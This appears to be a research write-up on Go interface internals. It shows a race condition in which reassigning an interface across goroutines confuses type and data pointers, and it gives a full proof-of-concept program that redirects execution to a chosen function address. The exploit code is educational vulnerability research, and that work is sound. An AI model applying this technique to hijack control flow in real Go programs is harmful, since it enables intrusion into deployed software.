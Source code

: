 # Unsafe Interfaces

## Underlying interface structures
```go
type itab struct {
	inter *interfacetype
	_type *_type
	hash  uint32 // copy of _type.hash. Used for type switches.
	_     [4]byte
	fun   [1]uintptr // variable sized. fun[0]==0 means _type does not implement inter.
}
```
_Snippet from [go/src/runtime/runtime2.go](https://github.com/btonic/go-research/blob/e2ab4a841a35cad07b35fee7d5ac193d910f43b4/go/src/runtime/runtime2.go#L807-L813)_

```go
type iface struct {
	tab  *itab
	data unsafe.Pointer
}
```
_Snippet from [go/src/runtime/runtime2.go](https://github.com/btonic/go-research/blob/e2ab4a841a35cad07b35fee7d5ac193d910f43b4/go/src/runtime/runtime2.go#L200-L203)_

## Conformity Race
An interface defines a set of type-bound methods which must be implemented for a type to conform to the interface. This is enforced during the assignment of a value to any variable defined as requiring a given interface (e.g. `var x MyInterface` can only be assigned to value types implement `MyInterface`-required type-bound methods). In order for this to work, the underlying type of an `interface{}` is represented as a structure containing pointers to the interface table (`tab`), and data (`data`).

Because the evaulation of `data` is dependent on the type information stored within `tab`, interfaces are prone to race conditions during reassignment, which could potentially leading to incorrect evaluation of `data`.

```go
type C interface {
    Exec()
}

type A struct {
    fintptr *int
}

func (a *A) Exec() {
    // some sort of work where `fintptr` can be reassigned by an attacker
}

type B struct {
    fptr func()
}
func (b B) Exec() {
    // some sort of work here, where `fptr` is executed (e.g. `fptr()`)
}
```

Given the definitions of `A`, `B`, `C` and their bound functions to implement `C`'s interface, the following is the premise of the dangerous race:

1. Variable `confused` (an arbitrary variable) is a variable of type `C`.
2. `confused.Exec()` is repeatedly executed in a loop within goroutine `A`.
3. `confused` is repeatedly reassigned in an arbitrary goroutine, which we will denote as `B`.
4. `confused.Exec()` is executed when `data` points to that of an arbitrary `A`, but the type information points to that of an arbitrary `B`.
5. The confused state results in the evaluation of `A.fintptr` as `B.fptr`, resulting in `B.Exec` executing the attacker-supplied `A.fintptr`.
6. Execution of the function at address `A.fintptr` begins in coroutine A.

In our [example](./main.go), we can observe this type of race in a pure form. We can define a `win` function, which is what we will be racing to execute, and an `address` function which will let us calculate an integer-formatted address for use during our race.

```go
// Utility functions

// i and j simply hold the loop counters for the `main` coroutine, and the spawned coroutine.
var i, j int

// address simply returns the integer address of a given parameter.
func address(i interface{}) int {
	addr, err := strconv.ParseUint(fmt.Sprintf("%p", i), 0, 0)
	if err != nil {
		panic(err)
	}
	return int(addr)
}

// For our example, we will be invoking `win` through the `StructIntPtr`'s 	`funcptr` field.
// Win is a simple target because it expects no parameters, so we don't have to groom the stack.
func win() {
	fmt.Println("win", i, j)
	os.Exit(1)
}
```

We then have two structures (equivalent to `A` and `B`), which implement the same interface (equivalent to `C`).

```go

// Interface defines the interface which both types in our race must comply with.
// In this case, each type must implement a function `X` with no return value.
type Interface interface {
	Exec()
}

// StructIntPtr contains a single field, `funcptr`, which in our case is some sort of user-controlled
// address. Effectively, this is the field pointing to the address we would like to execute during our
// race.
type StructIntPtr struct {
	funcintptr *int
}

// X is stubbed out in the StructIntPtr for our example, so we don't have to worry about other logic
// impeding our ability to hit the race condition.
func (s StructIntPtr) Exec() {}

// StructFuncPtr defines an interface with a normal `funcptr` (the typical way you would reference a function pointer).
// This structure is what will execute our stale (`funcintptr`) address, as `funcptr` will inherit the value of `StructIntPtr.funcintptr`.
type StructFuncPtr struct {
	funcptr func()
}

func (u StructFuncPtr) Exec() {
	// Because we are not initializing `u.`
	if u.funcptr != nil {
		u.funcptr()
	}
}
```
Within `main`, we then calculate the `win` address so we can use it to emulate the attacker-controlled value of our race. We then initialize `a` and `b` to each of the respective struct types, and assign `confused` to `a` for an initial value. At this point, we are then ready to begin our racing operations. The main goroutine will spawn a new goroutine, which will infinitely loop, reassigning the value of `confused` back and forth between `a` and `b`. After this coroutine is spawned, the main goroutine will then loop infinitely, executing `confused.Exec()`. When a race occurs, the spawned goroutine will continue reassigning `confused`, while the main goroutine will then transition to executing the `win` function.

```go
func main() {
	// A minimum of two CPUs are necessary, since our corouines must execute on different MPs.
	if runtime.NumCPU() < 2 {
		fmt.Println("need >= 2 CPUs")
		os.Exit(1)
	}

	// The winAddr is the address of the `win` function.
	winAddr := address(win)

	// We are defining the variables involved in the race:
	//
	// * `confused`: The confused variable is what will be used as a proxy to `a` and `b`
	// * `a`: The struct we will be using during the race to overwrite `StructFuncPtr.funcptr` in `b`.
	// * `b`: The struct we will be executing our inherited `funcintptr` value from `a` within.
	var confused, a, b Interface
	a = &StructIntPtr{funcintptr: &winAddr}
	b = &StructFuncPtr{}

	// Since confused was not initialized to a value, we are going to start with a value of a,
	// Which has a stubbed `X`. That way, we can let the coroutine spawn and start assigning values
	// to `confused` between `a` and `b`.
	confused = a

	// Spawn the racy coroutine.
	go func() {
		// We are going to infinitely loop, reassigning confused back and forth between `a` and `b`.
		// When the race condition is hit in the mainthread, this coroutine won't matter anymore,
		// As we will be able to begin controlling execution flow, regardless of `confused`.
		for {
			confused = b

			// We need to keep the assignment to `confused` from being inlined by the compiler.
			// Referencing `confused` from inside an inlined function will allow us to force
			// inlining to be too expensive.
			func() {
				if i >= 0 {
					return
				}
				fmt.Println(confused)
			}()

			confused = a
			// Bump i to show how many times (roughly) the spawned coroutine executed prior to
			// achieving control of execution flow.
			i++
		}
	}()

	// In the `main` coroutine, repeatedly executes `confused.Exec()` so we can attempt
	// to invoke the `funcintptr` value leftover from `a`, as `funcptr`.
	for {
		confused.Exec()
		j++
	}
}
```